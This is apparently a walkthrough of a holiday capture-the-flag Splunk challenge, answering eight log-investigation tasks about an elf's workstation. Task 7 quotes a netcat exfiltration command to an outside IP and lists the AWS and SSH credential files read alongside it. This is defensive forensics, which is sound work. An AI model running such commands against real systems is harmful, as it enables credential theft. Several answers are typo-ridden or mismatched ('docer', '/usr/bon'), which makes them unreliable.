Splunk
|
Challenge : Help Angel Candysalt solve the Splunk challenge in Santa's great hall. Fitzy Shortstack is in Santa's lobby, and he knows a few things about Splunk. What does Santa call you you complete the analysis? |
||
Difficulty Level :  |
Location : Great Room |
Elf/Troll :  Angel Candysalt Angel Candysalt |

|
Hints from Andy Candysalt Anywho, I'm back at Santa’s Splunk terminal again this year. There's always more to learn! Take a look and see what you can find this year. With who-knows-what going on next door, it never hurts to have sharp SIEM skills!. Website: https://hhc21.bossworkshops.io/en-US/app/SA-hhc/santadocs |
Task 1
Capture the commands Eddie ran most often, starting with git.
Looking only at his process launches as reported by Sysmon, record the most common git-related CommandLine that Eddie seemed to use.
Analysis
Splunk Query
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational CommandLine="git*"
| stats count by CommandLine
| sort count desc

Answer
git status
Task 2
Looking through the git commands Eddie ran, determine the remote repository that he configured as the origin for the 'partnerapi' repo.
The correct one!
Analysis
Referred the below article on how to add a remote repository :
https://docs.github.com/en/get-started/getting-started-with-git/managing-remote-repositories
The git remote add command takes two arguments:
- A remote name, for example, origin
- A remote URL, for example, https://github.com/user/repo.git
Splunk Query
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational eddie partnerapi
CommandLine="*git remote add*"

Answer
git remote add
Task 3
Eddie was running Docker on his workstation. Gather the full command line that Eddie used to bring up a the partnerapi project on his workstation.
Analysis
How to start and run the app on docker.
docker compose up
Ref : Docker docs
"Run docker compose up and the Docker compose command starts and runs your entire app"
Splunk Query
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational eddie partnerapi Computer="emcjingles-l" CommandLine="docker compose up"

Answer
docer compose up
Task 4
Eddie had been testing automated static application security testing (SAST) in GitHub. Vulnerability reports have been coming into Splunk in JSON format via GitHub webhooks.
Search all the events in the main index in Splunk and use the sourcetype field to locate these reports.
Determine the URL of the vulnerable GitHub repository that the elves cloned for testing and document it here.
You will need to search outside of Splunk (try GitHub) for the original name of the repository.
Analysis
First we check how many Git repositories have been used
index=main sourcetype=github_json | stats values(repository.git_url)

Above shows two github repositories.
| github.com/elfnp3/partnerapi.git | github.com/elfnp3/dvws-node.git |
|---|---|
|  |  |
But the question is "Determine the URL of the vulnerable GitHub repository that the elves cloned for testing"
If we look at the elfnp3/dvws-node, looks like its cloned from snoopysecurity/dvws-node.

snoopysecurity/dvws-node is the "Damn Vulenerable Web Services"
Therefore the answer would be https://github.com/snoopysecurity/dvws-node


Answer
https://github.com/snoopysecurity/dvws-node
Task 5
Santa asked Eddie to add a JavaScript library from NPM to the 'partnerapi' project.
Determine the name of the library and record it here for our workshop documentation.
Analysis
https://docs.npmjs.com/cli/v8/commands/npm-install
npm install
Splunk query
index=main eddie CommandLine="*npm install*" partnerapi

Answer
holiday-utils-js
Task 6
Another elf started gathering a baseline of the network activity that Eddie generated.
Start with their search and capture the full process_name field of anything that looks suspicious.
Analysis
If we look at the search provided in the task
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=3 user=eddie NOT dest_ip IN (127.0.0.*) NOT dest_port IN (22,53,80,443)
| stats count by dest_ip dest_port
The IP address 192.30.255.113 belongs to github and It us called from the git process(usr/bin/git).
But the IP 54.175.69.219 belongs to AWS.
Most importantly It is being called from /usr/bin/nc.openbsd which can be used for making arbitrary TCP and UDP connections and listens.
[ref : https://manpages.debian.org/stretch/netcat-penbsd/nc.openbsd.1
This may be a suspicious action and may be potential reverse shell.
Therefore the suspicious process name would be /usr/bon/nc.openbsd.
 

Answer
/usr/bon/nc.openbsd
Task 7
Uh oh. This documentation exercise just turned into an investigation.
Starting with the process identified in the previous task, look for additional suspicious commands launched by the same parent process.
One thing to know about these Sysmon events is that Network connection events don't indicate the parent process ID, but Process creation events do!
Determine the number of files that were accessed by a related process and record it here.
Analysis
Searching for the "/usr/bin/nc.openbsd" process
index=main process_name="/usr/bin/nc.openbsd"
We see command line nc.openbsd ran the commandline "nc -q1 54.175.69.219 16842".
Which means it connects to the IP address 54.175.69.219 on port 16842.
The parent process here is 6788.

Now if we look for ParentProcessId 6788.
index=main ParentProcessId=6788
We see 6 files being red via /usr/bin/cat
- /home/eddie/.aws/credentials
- /home/eddie/.ssh/authorized_keys
- /home/eddie/.ssh/config
- /home/eddie/.ssh/eddie
- /home/eddie/.ssh/eddie.pub
- /home/eddie/.ssh/known_hosts
So, the answer is 6.


Answer
6
Task 8
Use Splunk and Sysmon Process creation data to identify the name of the Bash script that accessed sensitive files and (likely) transmitted them to a remote IP address.
Determine the number of files that were accessed by a related process and record it here.
Analysis
index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational user=eddie process="*bash*" CommandLine="/bin/bash *" | table CommandLine
From sysmon process creation data, there is only one bash script which got executed.

(index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=1 CommandLine="*.sh" ParentCommandLine="/bin/sh")
OR
(index=main sourcetype=journald source=Journald:Microsoft-Windows-Sysmon/Operational EventCode=3 process_name="/bin/sh")
| fields ProcessId,ProcessID,ProcessGuid,CommandLine,process_current_directory,dest
| stats values(ProcessId) as ProcessId values(ProcessID) as ProcessID values(CommandLine) as CommandLine values(process_current_directory) as process_current_directory values(dest) as dest by ProcessGuid
 
Objective complete
On submitting answer to the task 8, we get the below text :
Thank you for helping Santa complete this investigation! Santa says you're a whiz
We submit whiz as the answer for the objective #9 and Its accepted.
